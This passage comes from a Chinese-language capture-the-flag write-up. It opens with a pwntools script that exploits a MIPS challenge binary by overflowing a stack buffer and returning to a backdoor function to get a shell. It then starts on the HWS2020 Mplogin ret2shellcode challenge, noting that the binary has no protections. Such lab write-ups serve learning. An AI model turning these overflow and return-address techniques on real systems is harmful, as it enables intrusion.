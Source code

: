 ```plain
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

context.arch='mips'
context.os='linux'
context.log_level = 'debug'

p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","./pwn"])
#p = process(["qemu-mipsel","-L","/usr/mipsel-linux-gnu/","-g","1234","./pwn"])
elf = ELF("./pwn")
ru('what is mips?\n')
backdoor=0x0400844
pl="a"*0x44+p32(backdoor)
sl(pl)
itr()
```

## HWS2020 Mplogin (ret2shellcode)

### 思路

一开始做这个题目的时候有些小问题，就是我按照习惯把文件名改成了pwn，然后再第一步一直没有办法泄露栈地址，后来意识到附件里面还有一个.DS\_Store文件

[![](assets/1705903019-734032823c7de8d907e243dece03a600.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192350-6293ba08-b786-1.png)  
这个文件是macOS系统用来存储特定文件夹的自定义显示设置和元数据的文件，所以应该是这个文件对栈空间有些影响，所以我们直接把整个文件夹的内容复制过去，然后正常做题就可以

[![](assets/1705903019-6e89a6f37ab31445bb4897e7615b9282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192356-6666942a-b786-1.png)  
什么保护都没有

[![](assets/1705903019-3a94994d6afa95ac8a8912428e3d85a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192404-6aded3aa-b786-1.png)

